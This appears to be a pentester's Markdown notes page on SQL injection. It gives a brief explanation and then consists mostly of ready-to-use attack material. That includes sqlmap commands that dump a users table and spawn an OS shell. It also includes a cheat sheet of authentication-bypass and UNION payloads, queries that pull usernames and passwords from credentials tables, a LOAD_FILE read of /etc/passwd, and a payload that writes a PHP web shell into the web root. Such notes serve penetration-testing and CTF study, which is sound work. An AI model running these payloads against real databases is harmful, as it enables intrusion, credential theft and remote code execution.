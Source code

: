 # SQL Injections

SQL injection refers to attacks against relational databases. Most modern web applications utilize a database structure on the back-end. Such databases are used to store and retrieve data related to the web application, from actual web content to user information and content. 

When user-supplied information is used to construct the query to the database, malicious users can trick the query into being used for something other than what the original programmer intended.


# SQLi Discovery
### Payloads
``` 	
' 	
" 	
# 	
; 	
) 
```

## SQLMap

The easiest way to run it.

1) intercept request in burp.
2) right click 'copy to file'
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/d5e0080f-9148-467e-b731-d2a09289684b)

### Enumerate user, db

```
sqlmap -r tosql --banner --current-user --current-db --is-dba --batch
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/17061fd0-bc0e-4bd7-a935-289e61d41316)


### Enumerate tables

```
sqlmap -r tosql  --tables -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7c5a02e1-fa0d-4281-892f-a425df00e753)


### Dump table of interest
```
sqlmap -r tosql --dump -T users -D public
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/e670f1a5-9664-4523-9517-ac5d91ac3f1e)

### Spawn a shell

```
sqlmap -r tosql --os-shell
```
![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/7707e8bc-3a1e-465f-b8ff-28ebf589e2f8)



## CheatSheet
More comprehensive can be found Payloadallthethings
SQL Injection
Payload 	Description
### Auth Bypass 	
```
admin' or '1'='1 	Basic Auth Bypass
admin')-- - 	Basic Auth Bypass With comments
```
Auth Bypass Payloads 	
### Union Injection 	
```
' order by 1-- - 	Detect number of columns using order by
cn' UNION select 1,2,3-- - 	Detect number of columns using Union injection
cn' UNION select 1,@@version,3,4-- - 	Basic Union injection
UNION select username, 2, 3, 4 from passwords-- - 	Union injection for 4 columns
```
### DB Enumeration 	
```
SELECT @@version 	Fingerprint MySQL with query output
SELECT SLEEP(5) 	Fingerprint MySQL with no output
cn' UNION select 1,database(),2,3-- - 	Current database name
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	List all databases
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	List all tables in a specific database
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	List all columns in a specific table
cn' UNION select 1, username, password, 4 from dev.credentials-- - 	Dump data from a table in another database
```
### Privileges 	
```
cn' UNION SELECT 1, user(), 3, 4-- - 	Find current user
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	Find if user has admin privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	Find if all user privileges
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	Find which directories can be accessed through MySQL
```
### File Injection 	
```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	Read local file
select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	Write a string to a local file
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	Write a web shell into the base web directory
```
